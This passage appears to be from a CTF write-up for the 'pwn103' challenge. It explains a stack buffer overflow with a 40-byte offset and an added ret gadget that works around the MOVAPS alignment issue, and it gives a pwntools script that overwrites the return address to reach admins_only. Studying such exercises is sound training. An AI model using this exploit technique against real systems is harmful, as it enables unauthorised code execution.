 When we create a string with cyclic and try to inflate buffer we see 40 char is enough. Then we write our admins_only’s adress and try to exploit. It works on local but without this command line it does not work on remote server: “exploit  += p64(0x401016)”

Why? Because of MOVAPS issue. Check this writeup section to understand this. 

[DEF CON CTF Qualifier 2015: r0pbaby write-up - Peilin Ye's blog](https://ypl.coffee/r0pbaby/#section5)

To fix MOVAPS issue we have to write like this  

> “ret retgadget admins_only”
> 

instead of 

> “ret admins_only”
> 

Because MOVAPS issue you should find ret’s address from 

```bash
objdump -d ./pwn103.pwn103
```

<p align="center"> <img src="assets/Untitled%2013.png"> </p>

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

elf = ELF('./pwn103.pwn103')

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([elf] + argv, *a, **kw)

io = start()

exploit  = b''
exploit  += b"\x90"*40
#exploit  += pack("<I", 0x401016)
#exploit  += pack("<I", 0x0000000000401554)

exploit  += p64(0x401016)
exploit  += p64(elf.symbols['admins_only'])

print(io.recv().decode('utf-8'))
io.sendline('3')
```